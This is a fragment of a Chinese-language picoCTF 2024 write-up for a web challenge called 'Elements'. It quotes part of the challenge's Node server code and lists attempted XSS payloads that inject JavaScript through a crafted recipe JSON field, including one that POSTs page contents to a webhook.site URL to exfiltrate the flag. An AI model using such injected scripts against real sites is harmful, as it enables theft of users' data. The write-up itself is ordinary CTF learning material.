 > 2. 'recipe' 是陣列。長度小於 50 個元素，確認每個步驟是一個長度為 2 的陣列。步驟中的元素長度小於 50 個字元。

● index.mjs
```javascript=
import { createServer } from 'node:http';
import assert from 'node:assert';
import { spawn } from 'node:child_process';
import { mkdir, mkdtemp, writeFile, rm, readFile } from 'node:fs/promises';
import { tmpdir } from 'node:os';
import { join } from 'node:path';

const sleep = delay => new Promise(res => setTimeout(res, delay));

const html = await readFile('static/index.html', 'utf-8');
const js = await readFile('static/index.js', 'utf-8');
const flag = await readFile('flag.txt', 'utf-8');

let visiting = false;

...處理瀏覽器訪問...
```
```
http://rhea.picoctf.net:52830/remoteCraft?recipe={"recipe":[["Fire","Water"]]}

>> invalid recipe!
```

```
偽造recipe 讓他丟出/flag.txt
http://rhea.picoctf.net:52830/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"fetch('/flag.txt').then(response => response.text()).then(data => alert(data));"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"alert(fetch('/flag.txt'))"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":["alert(fetch('http://127.0.0.1:8080/flag.txt').then(response => response.text()).then(data => alert(data)));"]}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"fetch('https://webhook.site/89a33e4d-1e15-48e6-bdb8-0df74726398b', { method: 'POST', body: JSON.stringify({ flag: document.querySelector('body').innerText }) })"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"encodeURIComponent("fetch('/flag.txt').then(response => response.text()).then(data => alert(data));")"}
```
https://github.com/satoki/ctf_writeups/tree/master/picoCTF_2024/elements?ref=blog.qz.sg


# Cryptography (5)
![image](https://hackmd.io/_uploads/HkD5vsCTp.png)

## interencdec
![image](https://hackmd.io/_uploads/ryB2PoA6p.png)
